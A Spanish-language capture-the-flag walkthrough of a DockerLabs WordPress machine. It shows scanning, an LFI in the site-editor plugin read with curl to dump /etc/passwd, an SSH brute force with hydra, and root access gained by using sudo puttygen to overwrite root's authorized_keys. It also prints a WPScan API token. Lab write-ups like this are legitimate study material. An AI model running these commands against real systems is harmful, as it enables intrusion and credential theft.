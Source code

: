 Deplegamos maquina de dockerlabs con

`sudo ./auto_deploy.sh injection.tar`

hacemos un brarido con **nmap** para lista los puertos abiertios usando 

`sudo nmap -p- --open -sS -sCV --min-rate 5000 -n -Pn -vvv 172.17.0.2 -oN scaning.txt`

![Pasted image 20240812171247](https://github.com/user-attachments/assets/dfc1dbf1-2cf7-4eb2-9888-fb08885e89ff)


Ok lugo de hacer el barido de puertos obsevamos que la maquina tiene abiertos el puerto **22, 80** puertos comunes que ya conecemos. Analisando cada puerto obesrvamos que puerto 22 **SSH** con una version de **OpenSSH  9.2p1** no tan actual pero de igunamente no nos permite usar exploits para enuemar usaurios como lo es el  **Username Enumeration**. y finalmente  el puerto 80 **http** en el cual vemos en que tien un titulo llamdo  **Asucar Moreno**  en su sitio web ya que es un **APACHE  2.4.52** y Alago muy importante es un sitio creado con tecnologia **Worpress 6.5.3** Algo que nos llama la antecion de imdiato ya que podemos usar hermaintas como WPSacn para sacanear este sition pero primero vamos a web y veamo que encontramos.

![Pasted image 20240812171757](https://github.com/user-attachments/assets/8d5c19fb-5d31-43cb-90b3-a1dd9f9d5194)


investigando un poco vemos que la web se ve  un poco estraña y que tiene un pagina de prueba llamado hello world damo click y observamos que aplica virtual  hosting asi que ya sabemos que hacer implemnete en la ruta **/etc/host** y la **asucar.dl**  se pude hacer de muchas maneras pero hoy voy a usar los siguetes comandos
1. abrimos con sudo el /etc/host con `sudo nano /etc/host` 
2. luego introducimos las lineas
	* `172.17.0.2   asucar.dl` 
	* damos `CTRL+X` damos `YES`  y `Enter` para guardar los cambios
3. finalmente recargamos la paguinas.
![Pasted image 20240812172824](https://github.com/user-attachments/assets/86f54948-2908-4dcc-b8c4-5105c14a05d4)


vemos que la paguina ha cambiado. ok lugo de todo esto  y no haber encontrado cosinanada lanzamos la heramienta WPScan y analizamonos los resultados.

`wpscan --url http://asucar.dl -e vp,u --api-token='AskAj1yEFAsVmrbhwaEj97f3aXs1GBpjg7L5oyfIUNs'`

![Pasted image 20240812174230](https://github.com/user-attachments/assets/8b6be990-d0bb-493a-b8c7-497d0156661a)

![Pasted image 20240812174305](https://github.com/user-attachments/assets/9a4d59bf-fae9-4ca4-ac0c-60c6d2e3e4a5)


vemos dos resulatado interesante el primero es una vulnerabilidad de pluguin site-editor ya que no se encurntra actualizada  y hay un posibles **Local File Inclution** y por otra pate tenenemos el usuario **wordpress** inetnetamos iniciara sesion con el pero no logramos nada asi que explotariomos la vilnerablidad del *LFI*.

principalmente vamos *searchsploit* ya busquemos a ver que nos dice
![Pasted image 20240812174722](https://github.com/user-attachments/assets/b5c801de-c9da-4049-ba04-73358dd82f2d)

vemos dos resulatados  el primero deun drupla peno no nos interesas y el que estamos bucando el  LFI  de wordpress  asi que con el  `searchsplit -m 'name expolit'` y lo pasamos a ruta actaual donde estamos trabajando los cambiere el nombre a *LFIsite-editor*

![Pasted image 20240812175231](https://github.com/user-attachments/assets/3af9b527-6fba-481a-a203-e1ff427cd940)



ok vemos que nos dice esta vualneriblidad. Segun la decripcion que tenemos sobre el LFI en resumen en parmatro *ajax_path* un parametro del extencion **/extensions/pagebuilder/includes/ajax_shortcode_pattern.php** nos permite listar achivos de la maquina. mas abajo encontramos un *Proof* un prubea de consepto donde nodicen que ejecutemos el comando 
`/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd`
 podemos usar el buscador o curl en su mayor defecto aquie usaremos curl 

`curl -s -X Get 'http://asucar.dl/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd' | grep -viE "nologin|{" | awk -F':' '{print $1}'`

![Pasted image 20240812182937](https://github.com/user-attachments/assets/8d780e69-ed06-4c63-94a8-f383e6ef4fb2)


comos vemos unasno expresiones regurlare podemos ver que usario con tenemos en el sistemas vemos *root* y otro muy ineteresante *curiosito* sabiendo que exite este usario lo siguiente por hacer es aplicar hydar para ver si tenene un contraseña vualnerable con el comando  

`hydra -l curiosito -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 4`

![Pasted image 20240812183713](https://github.com/user-attachments/assets/f4892f65-842b-4a8c-8fc3-1fca09b36a69)


bingo tenosmos el usuarion **curiosito** y la constraseña **password1** asi que inicsmaos por SSH 

`ssh curiosito@172.17.0.2`

![Pasted image 20240812183911](https://github.com/user-attachments/assets/d3e12199-8aac-4888-8723-19c081982a69)



Bien contienuemos con la escalda de privilijios como ya sabemos lo primero que veremos es que como podemo ejecutar con sudo asi que aplicamo `sudo -l`  y vemos.

![Pasted image 20240814124752](https://github.com/user-attachments/assets/fd1ce228-b65f-49bb-85eb-02b26573ec71)


super como vemos  puttygen  los podemos ejecutar como sudo asi que este un aplicatavo de putty por el cual uno puede generar id_rsa para conecctarse por ssh asi que lo aremos.

`/usr/bin/puttygen -t rsa -b 2048 -O private-openssh -o ~/.ssh/id`
`/usr/bin/puttygen -L ~/.ssh/id >> ~/.ssh/authorized_keys`
`sudo /usr/bin/puttygen /home/curiosito/.ssh/id -o /root/.ssh/id`
`sudo /usr/bin/puttygen /home/curiosito/.ssh/id -o /root/.ssh/authorized_keys -O public-openssh`

esta serie de comondo lo que nos ayuda es a crear un id_rsa para el usurio root  que luego nos copiaremos a nustro usuario con los siguinetes comandos

`scp curiosito@172.17.0.2:/home/curiosito/.ssh/id .`

este conado lo usamos para pasar la id_rsa que usaremos  recuerden usar `chmod 600 id` para cambiar los permisos y no tener conflictos.

final mente ejecutamos SSH

`ssh -i id root@172.17.0.2`

![Pasted image 20240814131154](https://github.com/user-attachments/assets/fccaea52-1bfc-4006-9268-0ec8c11f5ed7)



y ya somos root.


`by juandas13`
